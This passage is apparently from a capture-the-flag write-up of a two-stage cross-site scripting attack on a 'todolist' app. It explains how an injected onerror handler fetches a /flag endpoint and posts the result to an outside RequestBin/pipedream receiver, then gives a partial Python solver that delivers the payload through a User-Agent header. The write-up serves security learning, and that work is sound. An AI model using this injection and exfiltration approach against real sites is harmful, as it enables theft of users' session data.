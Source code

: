 I used the DIV `s2` to get the escaping right for the Javascript I wanted to
insert into the error handler for the image.  This would be the payload executed
on `todolist`, while the lower `script` tag would be executed on
`todolist-support`.  This wasn't strictly necessary, but it made experimenting
with the 2nd stage payload easier.

The `todolist-support` payload triggers a cross-origin request (hence the need
for `mode: 'no-cors'` and `credentials: 'include'` to the `todolist` API to
create a new TODO.  The new TODO contained an image tag with the contents of
`s2` as the `onerror` handler (which would fire as soon as rendered).

That javascript first fetched the `/flag` endpoint, then did a `POST` to my
destination with the contents of the response.

I built a small(ish) python script to send the payload file, and used
[RequestBin](https://requestbin.com/) to receive the final flag.

{% raw %}
```python
import requests
import argparse
import os


def make_email():
    return os.urandom(12).hex() + '@example.dev'


def register_account(session, server):
    resp = session.post(server + '/register', data={
        'email': make_email(),
        'password': 'foofoo',
        'password2': 'foofoo'})
    resp.raise_for_status()


def get_support(session, server):
    resp = session.get(server + '/support')
    resp.raise_for_status()
    return resp.url


def post_support_message(session, support_url, payload):
    # first sso
    resp = session.get(support_url + '/message')
    resp.raise_for_status()
    msg = "auto-solution-test"
    pow_value = "c8157e80ff474182f6ece337effe4962"
    data = {"message": msg, "pow": pow_value}
    resp = session.post(support_url + '/message', data=data,
            headers={'User-Agent': payload})
    resp.raise_for_status()


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--requestbin',
            default='https://eo3krwoqalopeel.m.pipedream.net')
    parser.add_argument('server', default='http://localhost:3123/',
            nargs='?', help='TODO Server')
    args = parser.parse_args()

    server = args.server
    if server.endswith('/'):
        server = server[:-1]
    sess = requests.Session()
```